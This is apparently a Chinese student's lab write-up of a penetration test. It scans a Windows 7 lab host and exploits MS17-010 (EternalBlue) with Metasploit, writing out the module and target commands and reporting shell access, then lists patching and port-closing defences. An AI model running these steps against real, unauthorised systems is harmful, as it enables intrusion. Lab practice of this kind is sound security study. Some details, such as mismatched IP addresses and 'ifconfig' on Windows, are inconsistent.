






前言
这周开始第一次网络安全实验，实验过程比较乏味只是简单的x-scan端口扫描。遂利用漏洞报告做一次渗透测试。
X-scan
按照实验要求扫描了下隔壁机子192.168.20.54x-scan扫描结果以html形式呈现，依据每个端口服务漏洞测试结果，进行渗透测试。


漏洞报告分析
扫描结果显示靶机存在80端口开放，但登录靶机网站显示网站未被建设，遂不能利用。但更有价值的是本次扫描发现win主机存在大量netbios漏洞信息，且开放了139/445/135端口。这不经让人想起了ms17_010(永恒之蓝)漏洞，正是通过端口139/135/445进行攻击。
开始渗透
渗透机：deepin 172.31.19.5
靶机: win7 172.31.19.78
工具：nmap、Metasploit
首先利用nmap扫描靶机开放端口服务，发现开放139/135/445端口服务

启动Metasploit控制台，使用ms17_010漏洞
1 | msf > use exploit/windows/smb/ms17_010_eternalblue |
并show options查看漏洞配置

设置渗透攻击目标IP地址，并执行
1 | msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 172.31.19.78 |

可以看到成功拿到shell,成功执行ifconfig

防范措施：
- 开启防火墙并定期更新漏洞补丁
- 如无必要，关闭135/139/445高危端口
未解决问题：靶机使用防火墙过滤端口，使用扫描导致失败，具体绕过还需要深入研究。